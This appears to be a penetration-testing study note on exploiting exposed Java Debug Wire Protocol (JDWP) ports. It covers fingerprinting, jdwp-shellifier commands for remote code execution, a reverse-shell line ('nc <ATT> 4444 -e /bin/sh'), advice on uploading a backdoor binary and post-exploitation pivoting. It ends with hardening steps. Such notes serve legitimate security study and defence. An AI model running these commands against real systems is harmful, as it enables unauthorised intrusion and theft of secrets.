

# 44 - JDWP (Port 8000) Pentesting

## 1. Executive Summary

JDWP (Java Debug Wire Protocol) is the wire protocol a debugger uses to control a running JVM. It has **no authentication and no encryption** — by design. If a JVM is started with debugging exposed on the network (commonly **TCP 8000**, but any port), anyone who can reach it gets **reliable, platform-independent Remote Code Execution**: you simply instruct the JVM to load Runtime references, set a breakpoint, and invoke `Runtime.exec`. JDWP exposure is a frequent production mistake (debug flags left on, or bound to `0.0.0.0`).

## 2. Protocol Overview & Architecture

A debugger connects and sends the ASCII string **`JDWP-Handshake`**; a live JDWP service replies with the same string — that round-trip is the fingerprint. After the handshake the protocol exposes full debug control: enumerate loaded classes/methods, set breakpoints, read/write memory, and **invoke arbitrary methods** in the target JVM with the JVM process's privileges. On the host, a Java process running with JDWP shows the debug agent in its command line (`-agentlib:jdwp=...`).

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 8000 <IP>
# Manual fingerprint: send the handshake, expect it echoed back
printf 'JDWP-Handshake' | nc <IP> 8000   # reply 'JDWP-Handshake' = live
nmap -p 8000 --script jdwp-exec <IP>
```

## 4. Exploitation Deep Dive

### 4.1 RCE via jdwp-shellifier
The go-to tool is **jdwp-shellifier** — it automates the five-step exploit (get Runtime ref → set breakpoint → trigger it → invoke method → execute):
```bash
python2 jdwp-shellifier.py -t <IP> -p 8000 --cmd 'id'
python2 jdwp-shellifier.py -t <IP> -p 8000 --cmd 'nc <ATT> 4444 -e /bin/sh'
```

### 4.2 Stability Tips
- Breakpoint on a frequently-hit method makes the exploit fire reliably: `--break-on 'java.lang.String.indexOf'`.
- For maximum stability, upload a backdoor binary and execute *that* instead of a one-shot command.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE as the JVM service account → foothold.
- Read app config/secrets in the running Java app's memory/files.
- Pivot via the app server's internal connectivity.

## 7. Defense & Hardening
1. **Never expose JDWP** — strip `-agentlib:jdwp`/`-Xdebug` from production startup.
2. If debugging is required, bind to `127.0.0.1` only and reach it via SSH tunnel.
3. Firewall 8000 (and any debug ports); alert on inbound `JDWP-Handshake`.

## 8. Chaining Opportunities
- Same JVM-RCE family as **[[43 - Java RMI (Ports 1099-1098) Pentesting]]**.
- Shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[43 - Java RMI (Ports 1099-1098) Pentesting]]
- [[45 - Remote GDBServer Pentesting]]

## 10. Tools
`jdwp-shellifier`, `nmap` jdwp-exec, `nc`.
